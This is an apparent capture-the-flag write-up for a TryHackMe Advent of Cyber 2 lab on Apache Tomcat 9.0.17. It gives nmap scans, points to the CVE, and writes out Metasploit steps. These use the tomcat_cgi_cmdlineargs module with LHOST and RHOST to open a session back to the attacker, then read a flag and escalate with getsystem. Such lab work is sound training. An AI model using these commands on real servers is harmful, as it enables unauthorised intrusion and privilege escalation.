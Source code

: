 # [Network] Metasploit and CGI-BIN

IP: 10.10.89.120

Advent of Cyber 2:

### What is the version?
- I ran 2 nmap scan, `nmap -Pn` and `nmap -Pn -sVC -vv`
- Webserver running on 8080 version `9.0.17`

### What is the CVE?
- https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-887/version_id-280286/year-2019/Apache-Tomcat-9.0.17.html
- Obviously it's the higher risk one ;)

### Eploit the thing, and grab the flag :)
- https://www.rapid7.com/db/modules/exploit/windows/http/tomcat_cgi_cmdlineargs/
- From the info you'll that the cgi-bin exploit is at `<ip>/cgi-bin/elfwhacker.bat`
- `sudo -i`
- `msfconsole`
- `msf > use exploit/windows/http/tomcat_cgi_cmdlineargs `
- `msf > set LHOST <our PC>`
- `msf > set RHOST <victim>`
- `msf exploit(tomcat_cgi_cmdlineargs) > show targets`
- `msf exploit(tomcat_cgi_cmdlineargs) > set TARGET < target-id >`
- `msf exploit(tomcat_cgi_cmdlineargs) > set TARGETURI http://10.10.89.120/cgi-bin/elfwhacker.bat`
- `msf exploit(tomcat_cgi_cmdlineargs) > show options`
- `msf exploit(tomcat_cgi_cmdlineargs) > exploit`
- `ls; cat flag1.txt`

### Privilege Escalation
- `getsystem` in metasploit!!! 
- https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/
